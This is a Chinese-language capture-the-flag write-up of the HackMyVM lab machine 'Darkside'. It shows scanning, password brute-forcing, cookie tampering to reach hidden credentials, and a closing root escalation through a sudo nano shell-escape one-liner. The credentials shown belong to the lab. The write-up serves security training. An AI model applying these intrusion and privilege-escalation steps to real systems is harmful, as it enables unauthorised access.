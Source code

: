 # Darkside

2025.02.22 https://hackmyvm.eu/machines/machine.php?vm=Darkside

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

访问 web 首页显示登陆页面，扫描发现 http://192.168.5.40/backup/vote.txt

```
rijaba: Yes
xerosec: Yes
sml: No
cromiphi: No
gatogamer: No
chema: Yes
talleyrand: No
d3b0o: Yes

Since the result was a draw, we will let you enter the darkside, or at least temporarily, good luck kevin.
```

得到用户名 kevin ， 上面的几个单词可能是密码，尝试爆破登陆但是不对，使用另外的一个小字典，结果爆破出了登陆密码 iloveyou 登陆到系统，显示一串字符 kgr6F1pR4VLAZoFnvRSX1t4GAEqbbph6yYs3ZJw1tXjxZyWCC 是先 base64 在 base58 编码的，将其解码后得到 sfqekmgncutjhbypvxda.onion

将该域名添加到 hosts 文件中当作域名，重新扫描，但是结果一样。

也可能是一个路径名，尝试访问 http://192.168.5.40/sfqekmgncutjhbypvxda.onion 查看源码发现：

```
var sideCookie = document.cookie.match(/(^| )side=([^;]+)/);
    if (sideCookie && sideCookie[2] === 'darkside') {
        window.location.href = 'hwvhysntovtanj.password';
    }
```

F12 修改 cookie side=darkside 刷新后 跳转到了 http://192.168.5.40/sfqekmgncutjhbypvxda.onion/hwvhysntovtanj.password 显示了 kevin 的登陆凭据：kevin:ILoveCalisthenics

使用此凭据进行 ssh 登陆，拿到 user flag：

```
kevin@darkside:~$ cat user.txt
UnbelievableHumble
```

查看到当前目录的 .history 文件，发现另外一个用户和密码: rijaba:ILoveJabita ，su 切换到 rijaba，sudo -l 显示 (root) NOPASSWD: /usr/bin/nano 直接可以拿到 root 权限：

```
sudo nano
^R^X
reset; sh 1>&0 2>&0

cd /root
cat root.txt

# cat root.txt
  ██████╗░░█████╗░██████╗░██╗░░██╗░██████╗██╗██████╗░███████╗
  ██╔══██╗██╔══██╗██╔══██╗██║░██╔╝██╔════╝██║██╔══██╗██╔════╝
  ██║░░██║███████║██████╔╝█████═╝░╚█████╗░██║██║░░██║█████╗░░
  ██║░░██║██╔══██║██╔══██╗██╔═██╗░░╚═══██╗██║██║░░██║██╔══╝░░
  ██████╔╝██║░░██║██║░░██║██║░╚██╗██████╔╝██║██████╔╝███████╗
  ╚═════╝░╚═╝░░╚═╝╚═╝░░╚═╝╚═╝░░╚═╝╚═════╝░╚═╝╚═════╝░╚══════╝


youcametothedarkside
```

